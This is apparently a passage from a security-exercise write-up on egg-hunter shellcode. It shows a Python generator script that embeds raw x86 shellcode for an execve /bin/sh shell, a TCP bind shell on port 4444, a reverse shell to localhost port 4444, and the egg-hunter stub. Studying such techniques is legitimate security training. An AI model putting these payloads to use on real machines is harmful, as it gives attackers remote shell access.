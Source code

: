 ## The configurator

The most interesting part here is to give the shellcode flexibility for the
second stage payload to be executed. The basic idea is to have three different
payloads:

* execve("/bin/sh")
* TCP Bind shell shellcode on port 4444
* TCP Reverse shell shellcode on localhost port 4444

Here it is the python script I used to create different C programs containing
different payloads. Please note that I added also a function to change the EGG
value.

{% highlight python %}
#!/usr/bin/env python

import sys, getopt, binascii, fileinput, re;

def help():
    print sys.argv[0] + " [options]"
    print "Valid options:"
    print "\t-h, --help: show this help"
    print "\t-s, --shell: use /bin/sh shellcode"
    print "\t-b, --bind-shell: use a TCP bind shell shellcode on port 4444"
    print "\t-r, --reverse-shell: use a TCP reverse shell shellcode on 127.0.0.1 on port 4444"
    print "\t-e, --egg=the_egg_string: use the given string as egg in memory"
    return 0

def main(argv):

    try:
        opts, args=getopt.getopt(argv, "hsbre:", ["help", "shell", "bind-shell", "reverse-shell", "egg="])
    except getopt.GetoptError:
        help()
        sys.exit(1)

    egg = "\\xef\\xbe\\xad\\xde"
    default_shellcode="\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x50\\x89\\xe1\\xb0\\x0b\\xcd\\x80"
    shellcode=egg+egg+default_shellcode

    for opt, arg in opts:
        if opt in ('-h', '--help'):
            help()
            sys.exit(0)
        elif opt in ('-s', '--shell'):
            shellcode=egg+egg+default_shellcode
        elif opt in ('-b', '--bind-shell'):
            shellcode=egg+egg+"\\x31\\xc0\\x89\\xc3\\x89\\xc1\\x89\\xc2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc3\\x31\\xc0\\x66\\xb8\\x69\\x01\\x31\\xc9\\x51\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\xcd\\x80\\x31\\xc9\\x31\\xc0\\x66\\xb8\\x6b\\x01\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x51\\x89\\xce\\x89\\xe1\\x89\\xe2\\xcd\\x80\\x89\\xc3\\x31\\xc9\\xb1\\x02\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80"
        elif opt in ('-r', '--reverse-shell'):
            shellcode=egg+egg+"\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc3\\xb8\\x80\\xff\\xff\\xfe\\x83\\xf0\\xff\\x50\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\x31\\xc0\\x66\\xb8\\x6a\\x01\\xcd\\x80\\x85\\xc0\\x75\\x24\\x31\\xc9\\xb1\\x02\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80\\xb3\\x01\\x31\\xc0\\xb0\\x01\\xcd\\x80"
        elif opt in ('-e', '--egg'):
            egg=repr(binascii.unhexlify(arg[::-1])).strip("'")

    egg_hunter="\\x31\\xc9\\xf7\\xe1\\x66\\x81\\xca\\xff\\x0f\\x42\\x8d\\x5a\\x04\\x31\\xc0\\xb0\\x21\\xcd\\x80\\x3c\\xf2\\x74\\xed\\xb8"+egg+"\\x89\\xd7\\xaf\\x75\\xe8\\xaf\\x75\\xe5\\xff\\xe7";
